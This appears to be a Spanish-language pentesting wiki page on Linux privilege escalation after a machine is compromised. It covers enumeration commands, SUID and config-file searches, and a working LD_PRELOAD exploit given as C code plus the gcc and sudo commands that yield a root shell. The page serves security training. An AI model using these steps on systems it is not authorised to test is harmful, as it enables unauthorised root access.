 # Escalada de privilegios en Linux

Se definen en esta página las principales técnicas de escalada de privilegios en máquinas Linux.

Se supone siempre que acabamos de comprometer una máquina y tenemos acceso a ella con un usuario de bajos privilegios.

## Enumeración de la máquina comprometida.

Hay una serie de comandos que siempre debemos lanzar al comprometer una máquina.

Comenzamos.

### whoami, id, ifconfig, ip a

* El comando **whoami** nos dice que usuario somos.
* El comando **id**  nos dice que usuario somos, pero ademas nos muestra los grupos en los que estamos.
* El comando **ifconfig** nos dice la ip que tenemos. Si no coincide con la que hemos trabajado es que estamos en un contenedor.
* El comando **ip a** hace lo mismo que **ifconfig** cuando este no funciona. Depende de la versión de linux.

![](/.gitbook/assets/escal01.png)

### Datos del sistema. uname -a, cat /etc/lsb-release

* El comando **uname -a** nos devuelve la versión de Linux que se ejecuta. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 
* El comando **cat /etc/lsb-release** nos devuelve la información exacta de la distribución. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 

![](/.gitbook/assets/escal02.png)

## Técnicas rutinarias

### Buscar ficheros **config** o **backup**

Sobre todo si estamos en un directorio de aplicación php, podemos buscar por el patrón config. Es posible obtener donde se configura la aplicación con el usuario de base de datos.

```bash
# Desde el directorio actual
find . -name *config*
# todo el sistema
find / -name *config*
```

También se puede hacer lo mismo con la palabra buckup, buscando posibles zips.

## Revisar los permisos sudo

Si tenemos la contraseña del usuario, podemos ver si tiene permisos sudo con **sudo -l**. Podemos ver si nos podemos aprovechar de algún permiso sudo para escalar privilegios.

![](/.gitbook/assets/kio33.png)

## Buscar ficheros con permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null
```

## Técnicas especificas.

### Sudo de ficheros binarios con la opción 

Si tenemos como opción en **sudo** la ejecución de un fichero binario y ademas tenemos la opción de enviar parametros en PRELOAD, ver la imagen:

![](/.gitbook/assets/sudo-preload.png)

Entonces podemos crearnos un módulo de preload malicioso. Creamos el fichero shell.c con el siguiente código c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

Luego lo compilamos como **shell.so**:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``` 

Y ya podemos ejecutar el binario como sudo cargando el módulo:

```bash
sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
``` 